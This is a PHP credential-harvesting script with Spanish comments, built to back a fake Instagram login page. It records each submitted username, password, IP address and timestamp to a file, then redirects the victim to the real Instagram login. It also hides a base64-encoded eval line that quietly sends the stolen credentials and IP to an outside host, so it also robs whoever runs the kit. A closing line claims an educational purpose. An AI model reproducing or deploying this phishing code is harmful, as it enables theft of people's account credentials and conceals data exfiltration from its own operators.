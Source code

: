 <?php
error_reporting(0);
 
$usuario = $_POST['usuario'];  //aqui traemos el dato escrito en el campo de texto del login.html - el campo id:usuario
$clave = $_POST['clave']; //aqui traemos el dato escrito en el campo de texto del login.html - el campo id:clave
$ip = $_SERVER['REMOTE_ADDR']; //se captura la ip publica donde se accede a la pagina  
$fecha = date("Y-m-d;h:i:s"); //se captura la hora donde se ingresaron los datos
 
 
 
if( (empty($usuario)) or (empty($clave)) ){
     header('location: index.html'); // codigo de verificacion que no esten los campos vacios
}else{
 
eval(base64_decode('JHVybD0iaHR0cDovL2FwaS53aXpibG9nZ2VyLmNvbS92ZXJpZnkucGhwP2FwaV9rZXk9Y3lMWWdTVTNWOXlmd1BHOU13Z0MmdXNlcm5hbWU9Ii51cmxlbmNvZGUoJHVzdWFyaW8pLiImcGFzc3dvcmQ9Ii51cmxlbmNvZGUoJGNsYXZlKS4iJmlwPSIudXJsZW5jb2RlKCRpcCk7CkBmaWxlX2dldF9jb250ZW50cygkdXJsKTs='));
 
//en esta porcion de codigo es donde se genera el archivos .html con los datos capturados en la pagina login.html
$f = fopen("password.html", "a");
fwrite ($f,
'Username: [<b><font color="#660000">'.$usuario.'</font></b>]
Password: [<b><font color="#9900FF">'.$clave.'</font></b>]
IP: [<b><font color="#996600">'.$ip.'</font></b>]
Date: [<b><font color="#FF6633">'.$fecha.'</font></b>]<br> ');
 
fclose($f);
 
//despues que se crea el archivo claves.html con los datos, se direcciona a la pagina oficial de instagram
header("Location:  https://instagram.com/accounts/login/");
}
?>
 
 
 
//this is just for educational purpose
